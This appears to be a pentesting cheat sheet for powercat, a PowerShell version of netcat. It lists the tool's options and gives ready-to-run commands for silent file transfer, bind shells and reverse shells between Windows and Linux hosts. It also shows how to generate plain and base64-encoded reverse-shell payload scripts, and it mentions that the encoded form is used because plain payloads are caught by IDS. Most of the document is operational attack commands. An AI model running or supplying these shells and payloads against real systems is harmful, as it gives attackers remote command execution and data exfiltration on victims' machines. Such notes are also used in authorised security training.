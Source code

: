 

[Powershell](PowerShell.md) version of [netcat](netcat.md). Script can be downloaded to Windows host that leverages the strength of PowerShell while simplifying creation of bind/ reverse bind shells.  
  
  
Installation of [powercat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)
```bash
apt install powercat
```
	on Linux adds the script to _/usr/share/windows-resources/powercat_  
  

**-c** _ip_ - Client connection to given _ip_  
**-d** - Disconnect  
**-e** _process_ - Execute given process  
**-ep** - Start a pseudo powershell session. Can declare variables and execute commands, but if you try to enter a new shell (nslookup, netsh, cmd, etc), it'll hang.  
**-i** - Provide data to be sent down the pipe as soon as a connection is established. Used for moving files. You can provide the path to a file, a byte array object, or a string.  
You can also pipe any of those into powercat:
```bash
'aaaaaa' | powercat -c 10.1.1.1 -p 80
```

**-g** - Generate payload. Returns a script as a string which will execute the powercat w/ the options specified. (**-i**, **-d**, and **-rep** won't be incorporated)  
**-ge** - Generate encoded payload. Same as **-g**, but returns string which can be executed with
```powershell
powershell -E <encoded string>
```
 
**-l** - Listen mode  
**-of** - Output file  
**-p** _port_ - Specify _port_  
**-r** _string_ - Relay network traffic between two nodes  
Client Relay Format:
```bash
-r <protocol>:<ip>:<port>
```

Client Listener Format:
```bash
-r <protocol>:<port>
```
 
DNSCat2 Format:
```bash
-r dns:<dns server>:<dns port>:<domain>
```
  
**-rep** - Repeater. Powercat will automatically restart once disconnected. Used for setting up a persistent server  
**-h** - Help  
  
  
###### File Transfer
to: 
```bash
sudo nc -lvnp 443 > <received_file.ps1>
```

from:  
```powershell
. .\powercat.ps1  
powercat -c <ip> -p 443 -i C:\Users\<path_to_file.ps1>
```  
	Note: There's no indication that the file transferred  



###### Bind Shell:
  
Linux = Victim; Win = Attacker  
```bash
nc -nlvp 443 -e /bin/sh
```
```powershell
powercat -c <ip> -p 443
```


Win = Victim; Linux = Attacker  
```powershell
powercat -l -p 443 -e cmd.exe
```
```bash
nc <ip> 443
```
  

  
###### Reverse Shell:  
  
Linux = Victim; Win = Attacker  
```bash
nc <ip> 443 -e /bin/sh
```
```powershell
powercat -l -p 443
```


Win = Victim; Linux = Attacker  
```powershell
powercat -c <ip> -p 443 -e cmd.exe
```
```bash
nc -nlvp 443
```

  
  
###### Payloads:  
Set of powershell instructions as well as the portion of the powercat script itself that only includes the features requested by the user.  
  
```powershell
powercat -c <ip> -p 443 -e cmd.exe -g > reverseshell.ps1
```

Note: Stand-alone payloads like this one might be easily detected by IDS.  
Specifically, the script that is generated is rather large with roughly 300 lines of code and contains a number of hardcoded strings that can easily be used in signatures for malicious activity.  
Plaintext malicious code such as this will likely have a poor success rate and will likely be caught by defensive software solutions.  
  
  
###### Encrypted Payloads: 
```powershell
powercat -c <ip> -p 443 -e cmd.exe -ge > encryptedreverse.ps1
```

Run script w/  
```powershell
powershell -E (Get-Content 'myscript.ps1' -Raw)
```